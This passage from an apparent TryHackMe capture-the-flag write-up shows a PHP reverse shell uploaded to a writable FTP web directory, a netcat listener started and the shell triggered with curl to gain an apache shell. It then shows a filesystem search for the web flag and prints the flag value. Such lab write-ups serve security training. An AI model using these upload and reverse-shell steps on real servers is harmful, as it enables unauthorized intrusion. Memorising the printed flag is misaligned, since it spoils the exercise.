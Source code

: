 We have access to the website's sources, and the directory is writable. Let's upload a PHP reverse shell:

~~~
ftp> put shell.php 
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5492 bytes sent in 0.00 secs (78.1728 MB/s)
ftp> exit
221 Goodbye.
~~~

## Reverse shell

Start a listener (`nc -nlvp 4444`) and browse the shell that has just been uploaded (`curl -s http://10.10.158.2/shell.php`). We now have a reverse shell:

~~~                                                                                                                    
bash-4.4$ id
uid=48(apache) gid=48(apache) groups=48(apache)
~~~

## Web flag

After failing to find the flag by searching for files owned by the `apache` user or group, I eventually found the flag by searching for files matching `*flag*`:

~~~
bash-4.4$ find / -type f -name "*flag*" -exec ls -l {} + 2>/dev/null
-r--------  1 root root     0 May  4 12:08 /proc/kpageflags
-rw-r--r--  1 root root     0 May  4 12:07 /proc/sys/kernel/acpi_video_flags
-r--r-----  1 root root  4096 May  4 12:08 /sys/devices/platform/serial8250/tty/ttyS1/flags
-r--r-----  1 root root  4096 May  4 12:08 /sys/devices/platform/serial8250/tty/ttyS2/flags
-r--r-----  1 root root  4096 May  4 12:08 /sys/devices/platform/serial8250/tty/ttyS3/flags
-r--r-----  1 root root  4096 May  4 12:08 /sys/devices/pnp0/00:06/tty/ttyS0/flags
-rw-r--r--  1 root root  4096 May  4 12:08 /sys/devices/vif-0/net/eth0/flags
-rw-r--r--  1 root root  4096 May  4 12:08 /sys/devices/virtual/net/lo/flags
-rw-r--r--  1 root root  4096 May  4 12:08 /sys/module/scsi_mod/parameters/default_dev_flags
-rwxr-xr-x. 1 root root  2183 Nov  8  2019 /usr/bin/pflags
-rwsr-xr-x. 1 root root 12704 Apr 14  2020 /usr/sbin/grub2-set-bootflag
-rw-r--r--. 1 root root    38 Nov 17 20:54 /usr/share/httpd/web.flag
-rw-r--r--. 1 root root   285 Apr 14  2020 /usr/share/man/man1/grub2-set-bootflag.1.gz
bash-4.4$ cat /usr/share/httpd/web.flag
thm{0ae72f7870c3687129f7a824194be09d}
~~~

Web flag: `thm{0ae72f7870c3687129f7a824194be09d}`


# User Flag
